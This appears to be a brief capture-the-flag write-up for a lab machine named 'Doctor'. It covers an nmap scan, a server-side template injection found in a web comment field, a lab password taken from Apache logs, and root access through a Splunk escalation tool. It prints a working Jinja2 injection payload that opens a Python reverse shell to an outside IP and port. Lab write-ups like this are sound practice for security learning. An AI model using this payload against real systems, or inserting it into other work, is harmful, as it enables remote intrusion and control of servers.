








# doctors


### nmap

PORT     STATE SERVICE  VERSION
22/tcp   open  ssh      OpenSSH 8.2p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0)
80/tcp   open  http     Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Doctor
8089/tcp open  ssl/http Splunkd httpd
| http-robots.txt: 1 disallowed entry 
|_/
|_http-server-header: Splunkd
|_http-title: splunkd
| ssl-cert: Subject: commonName=SplunkServerDefaultCert/organizationName=SplunkUser
| Not valid before: 2020-09-06T15:57:27
|_Not valid after:  2023-09-06T15:57:27
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel


#### web


vhosting is enabled

```
domain						doctors.htb
```


- login form appears when using domain name




- reviewing the source code we find a archive 




#### exploit


```
server side template injection is present
```






### shell

- posting this in comment gives us a reverse shell

```
</title></item>{{x()._module.__builtins__['__import__']('os').popen("python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"10.10.14.43\",9001));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call([\"/bin/bash\", \"-i\"]);'").read().zfill(417)}}
```


- template injection is in the header




### privilege escalation

- for user shaun found credentials in /var/log/apache2




##### credentials

```
username: shaun
password: Guitar123
```





##### root

for root we need will use splunk priv esc method using splunkwhisperer

[github repository](https://github.com/cnotin/SplunkWhisperer2)

got the root hash

